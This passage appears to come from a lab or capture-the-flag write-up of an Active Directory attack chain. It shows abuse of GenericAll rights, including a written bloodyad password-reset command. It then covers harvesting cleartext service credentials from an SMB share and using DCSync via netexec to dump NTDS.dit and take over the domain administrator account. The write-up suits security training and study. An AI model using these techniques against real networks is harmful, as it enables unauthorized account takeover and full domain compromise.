

The recovered password authenticates me successfully to the DC. Reviewing `luisa` on _BloodHound_ UI, it has a _GenericAll_ ACL on `james`:



 _GenericAll_ makes it possible for `luisa` to compromise the `james` with Shadow Credentials (that failed), targeted Kerberoast (its hash did not crack) or changing its password, as follows:

```bash
bloodyad --host DC01 -d 'bitstream.hsm' -u 'luisa' -p '[...]' set password  'james' 'LiarPants1!'
```



---
# _SHARE (10.0.1.5)_

Having compromised `james`, I review its access to the different hosts and services. While reviewing its SMB share access across all hosts, I noted that it has _READ_ rights on the _Scripts_ SMB share hosted on the _SHARE_ host:



Viewing the contents of _SHARE_, it contains 4 scripts which I downloaded to my local host:



Inspecting the _Automated-AD-Backup.ps1_ script - it stores `svc_backup`'s credentials in cleartext:



Testing the recovered credentials, they authenticate `svc_backup` successfully:



---
# _DC (10.0.2.5)_

Viewing `svc_backup`'s group membership on _BloodHound_ UI, it is a member of _Backup Operators_ and _Remote Management Users_ - both privileged while the first has a promising privilege escalation potential:



Moreover, `svc_backup` has the _[GetChanges](https://bloodhound.specterops.io/resources/edges/get-changes)_ and _[GetChangesAll](https://bloodhound.specterops.io/resources/edges/get-changes-all)_ ACLs on the domain - when combined, they grant the user the ability to perform DCSync and fully compromise the domain:



Having these ACLs, I can simply dump the _NTDS.dit_ remotely using _netexec_ and recover `administrator`'s NTLM hash:



Authenticating successfully as `administrator` on _DC01_, confirming full domain compromise:



